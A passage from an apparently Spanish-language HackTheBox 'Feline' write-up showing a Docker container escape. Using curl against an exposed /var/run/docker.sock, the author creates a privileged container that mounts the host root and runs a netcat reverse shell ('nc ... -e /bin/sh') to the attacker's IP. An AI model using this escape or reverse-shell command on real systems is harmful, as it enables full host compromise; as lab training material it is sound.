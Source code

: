 Con lo anterior creamos un ID para esa tarea `exec` que queremos ejecutar, así que ahora le indicamos que nos lo ejecute:

```bash
root@2d24bf61767c:~# curl -i -s --unix-socket /var/run/docker.sock -X POST -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://localhost/exec/eff6b5d22c4b640f022d8f98b253a314b0a7cda0669ca1581d6916060d8dabdc/start
HTTP/1.1 200 OK
Content-Type: application/vnd.docker.raw-stream
Api-Version: 1.40
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)

root@2d24bf61767c:~# 
```

Pero no pasa nada :P

Después de probar varias cositas, lo único que me dio respuesta fue hacer una petición hacia mí máquina mediante `wget` o `curl`, pero no pude hacer nada con eso... Así que seguí buscando.

Algunos buenos post que intente y que explican muy bien:

* [A tale of escaping a hardened docker container - RedTimmy.com](https://www.redtimmy.com/a-tale-of-escaping-a-hardened-docker-container/).
* [Understanding security risks of running docker containers - Ctl.io](https://www.ctl.io/developers/blog/post/tutorial-understanding-the-security-risks-of-running-docker-containers).
* [Abusing Docker API - SecurityBoulevard.com](https://securityboulevard.com/2019/02/abusing-docker-api-socket/).

Este último tiene varios links también de apoyo con lindas referencias, miraremos una de ellas:

* [Owning system through exposed docker engine - Cert.litnet.lt](https://cert.litnet.lt/2016/11/owning-system-through-an-exposed-docker-engine/).

En él nos muestra como obtener ejecución de comandos mediante la creación de un contenedor además de hacer una montura sobre la carpeta que le indiquemos; nosotros usaremos la imagen de `sandbox` para la creación del contenedor:

```bash
root@2d24bf61767c:~# curl -i -s --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" http://localhost/containers/create?name=entramosOno -d '{"Image":"sandbox", "Cmd":["/usr/bin/nc", "10.10.14.218", "4435", "-e", "/bin/sh"], "Binds": [ "/:/montadoPA" ], "Privileged": true}'
```

Entonces, le indicamos que nos cree un `container` con el nombre `entramosOno`, que use la imagen `sandbox` y que cuando se ejecute haga una petición mediante `nc` a nuestra máquina para obtener una shell. Además de montar la raíz (`/`) del sistema sobre la ruta `montadoPA` del contenedor :)

Démosle:

![274bash_dockersock_shell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/feline/274bash_dockersock_shell.png)

Perfecto, obtenemos la shell, veamos si tenemos la montura:

```bash
ls -la /
total 68
drwxr-xr-x    1 root     root          4096 Dec 23 00:45 .
drwxr-xr-x    1 root     root          4096 Dec 23 00:45 ..
-rwxr-xr-x    1 root     root             0 Dec 23 00:45 .dockerenv
drwxr-xr-x    2 root     root          4096 May 29  2020 bin
drwxr-xr-x   13 root     root          3740 Dec 23 00:45 dev
drwxr-xr-x    1 root     root          4096 Dec 23 00:45 etc
drwxr-xr-x    2 root     root          4096 May 29  2020 home
drwxr-xr-x    7 root     root          4096 May 29  2020 lib
drwxr-xr-x    5 root     root          4096 May 29  2020 media
drwxr-xr-x    2 root     root          4096 May 29  2020 mnt
```